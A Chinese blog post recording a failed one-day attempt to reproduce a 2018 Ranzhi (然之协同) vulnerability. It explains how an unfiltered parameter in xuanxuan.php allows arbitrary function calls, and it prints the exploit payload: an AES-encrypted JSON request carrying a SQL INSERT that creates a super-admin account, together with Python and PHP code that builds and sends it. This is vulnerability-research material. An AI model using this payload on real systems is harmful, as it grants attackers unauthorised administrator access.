





# 记一次失败的漏洞复现-然之协同

这是2018年的一个漏洞，但是漏洞详情中没有给出具体的利用脚本和利用payload，于是准备先复现漏洞，但是调试一天无果，遂记之….

## 0x00 介绍

我的任务是为2018年的漏洞编写poc插件，同时复现环境。这个漏洞的分析链接是

  * https://xz.aliyun.com/t/2073


简要介绍一下该漏洞分析的流程，某个传参中未作过滤，导致可以执行该类里面的任意函数，然后通过调用这个函数来执行整个系统中的任意函数，分析中选择执行操作db的类来添加一个管理员用户。

## 0x01 aes解密

介绍完毕，首先来到第一个坑，这个系统在解析调用的时候选择先aes解密在转义json数组。所以我们需要先将json数据aes加密。一般aes加密后都会base64编码一下识别为可读的字符，但是该系统就要aes加密的，不要base64…
```python 
sql = r'''INSERT INTO `ranzhi`.`sys_user`(`dept`, `account`, `password`, `realname`, `role`, `nickname`, `admin`, `avatar`, `birthday`,`gender`, `email`, `skype`, `qq`, `yahoo`, `gtalk`, `wangwang`, `site`, `mobile`, `phone`, `address`,`zipcode`, `visits`, `ip`, `last`, `ping`, `fails`, `join`, `locked`, `deleted`, `status`) VALUES(0, 'admin886', '68a021b219de5c74dfb47ef701866b45', 'admin', '', '', 'super', '', '0000-00-00', 'u', '','', '', '', '', '', '', '', '', '', '', 0, '', '0000-00-00 00:00:00', '0000-00-00 00:00:00', 3,'2019-02-28 11:47:38', '0000-00-00 00:00:00', '0', 'offline');'''
data = '{"userID": "123", "module": "chat", "method": "fetch","params": {"0": "baseDAO", "1": "query", "2": "%s", "3": "sys"}}' % sql
key = "88888888888888888888888888888888"

aes = AES.new(self.add_to_16(key), AES.MODE_ECB)  # 初始化加密器
encrypted_text = aes.encrypt(self.add_to_16(data))
r = requests.post(self.url + "/xuanxuan.php", data=encrypted_text, headers=headers)

```



biu直接发送，得到结果解密失败？？？好吧，我也不清楚requests能不能发字节的data…

那换个思路，直接在php中生成好，base64加密一下，然后poc里面base64解密后发送？

代码如下
```php 
$payload = '{"userID": "123", "module": "chat", "method": "fetch","params": {"0": "baseDAO", "1": "query", "2": "INSERT INTO `ranzhi`.`sys_user`(`dept`, `account`, `password`, `realname`, `role`, `nickname`, `admin`, `avatar`, `birthday`,`gender`, `email`, `skype`, `qq`, `yahoo`, `gtalk`, `wangwang`, `site`, `mobile`, `phone`, `address`,`zipcode`, `visits`, `ip`, `last`, `ping`, `fails`, `join`, `locked`, `deleted`, `status`) VALUES(0, \'admin886\', \'68a021b219de5c74dfb47ef701866b45\', \'admin\', \'\', \'\', \'super\', \'\', \'0000-00-00\', \'u\', \'\',\'\', \'\', \'\', \'\', \'\', \'\', \'\', \'\', \'\', \'\', 0, \'\', \'0000-00-00 00:00:00\', \'0000-00-00 00:00:00\', 3,\'2019-02-28 11:47:38\', \'0000-00-00 00:00:00\', \'0\', \'offline\');", "3": "sys"}}';
$payload = base64_encode($this->encrypt($payload));

```

获得了payload
``` 
gxFLdueMz7ZBplPdg68YPC4ZcSdi1MhKPAKyV8QZBbFW+P4Dt5GPJ+TAmotWsoFAsbT+AZOs/C2ff+J26Cxf2SpVJYM3MqvOMlmOtJbxkzEgY3YxZM98p8CRhsJCGgefINFwihspNLcKzDdphX3SU/h9MkU4xrbCnwUanuU7tGY/wJhBuYOLVymR0UUa89c2EkNhXu+WP8BZuEHxRJKRFTwbSmpNOwWTIipkteCe5KSk7w0jwNfwROKpl0r9dK1mmCvuoLNmiIRqwj6uqfgd2OJ5bHysEuKhKzSl70vp2jp0jhdk9XTnKXPv8bSVj6k+8gP4FBBvDaFivsEu9n5bBt0HGT06Kg7tV92ohmOama/5NZ4Ityti0T5+D9Nygpd8UoIeIHdCQmBZDQDf+yA5L6LGS1FBqTzeT06/FeGpGLc23BLPcXzN0HpXpH2llf/P+184mgYElhMUvXKIpjrqhP7ovQIOCNrfCUUS9yFS1KMwXSAynUn1zk/bG4gBH9mFyEw7BX2wG3yTkfhSMwb7gxhn2nrMNs/kKmUE23k//kSg0b5mvYvTuzkBCc4eUfrs4SaMV4B3FWQ/JmZ2TW3NfBNOdE6RZJG62Xv4ktbsaWG+gyb8inBzI+djp5xpQiZ1p0i+cHD7+ydiSdD94Jqveuvdl95pjd53VtiYg181gMJnUBaX2M3ZYk2PeW6B3Ya4PqqdvWEAcBgAB+CY4XySuaWzWSd7srAALH84py0gzl+gbK9j/YD1BcGNJ9abEgaUNQid5zVcMDRw+SgoJeBRTwH1UrZqb+7SG5i3/LB+YLqyrL+OOcIFXX9xjwp9IYAJJniqoXX6CY/TF65lZuudDHoN1mzGN3aSJL8PP1IudJHaB/vWW7nNFcHU32gd3Y8OjA8lYHUC2/VvHA9nB3jZAo3SuHE502oI1nfLsMcY5TVp2RutDSt6KxOiAMKeWjMl/790tmiY9BR/REsqM9nxFQ==

```

poc如下代码



但是运行后发现，我们的payload最后并没有解析成json格式，而是一个字符串格式。

为了更好的测试，我将源文件代码修改了一下，原来是
```php 
$input   = file_get_contents("php://input");
$input   = $this->decrypt($input);

```

现在是
```php 
$payload = '{"userID": "123", "module": "chat", "method": "fetch","params": {"0": "baseDAO", "1": "query", "2": "INSERT INTO `ranzhi`.`sys_user`(`dept`, `account`, `password`, `realname`, `role`, `nickname`, `admin`, `avatar`, `birthday`,`gender`, `email`, `skype`, `qq`, `yahoo`, `gtalk`, `wangwang`, `site`, `mobile`, `phone`, `address`,`zipcode`, `visits`, `ip`, `last`, `ping`, `fails`, `join`, `locked`, `deleted`, `status`) VALUES(0, \'admin886\', \'68a021b219de5c74dfb47ef701866b45\', \'admin\', \'\', \'\', \'super\', \'\', \'0000-00-00\', \'u\', \'\',\'\', \'\', \'\', \'\', \'\', \'\', \'\', \'\', \'\', \'\', 0, \'\', \'0000-00-00 00:00:00\', \'0000-00-00 00:00:00\', 3,\'2019-02-28 11:47:38\', \'0000-00-00 00:00:00\', \'0\', \'offline\');", "3": "sys"}}';
        $input = $this->encrypt($payload);
//      $input   = file_get_contents("php://input");
        $input   = $this->decrypt($input);

```

后面经过多次测试，都没法逃脱是字符串的命运，没办法，这点后面再看吧。。可能是encrypt的时候问题，先手动增加一个json_decode()

## 0x02 峰回路一转

手动添加后可以解析出参数了

但是sql语句却是空的



于是想测试下到底能否跳到`baseDAO`这个类里，在baseDAO自己新建了一个`phpinfo`成员函数，然后修改payload让它跳到这里，最后证明是可以跳到这里的。

那么就可以确定了，可以执行这个函数，但是参数是没有传递进来。不管怎么说，这几个测试验证了漏洞是可行的，可能就是payload的有些问题。

## 0x03 未完待续

虽然博客上寥寥几句话就说完了，但是现实调试的是很痛苦的，想着不能调试一天啥都白干吧，于是记录下了这篇文字，明天，我再来看看到底是怎么回事！

后续：[记一次成功的漏洞复现-然之协同](记一次成功的漏洞复现-然之协同.md)
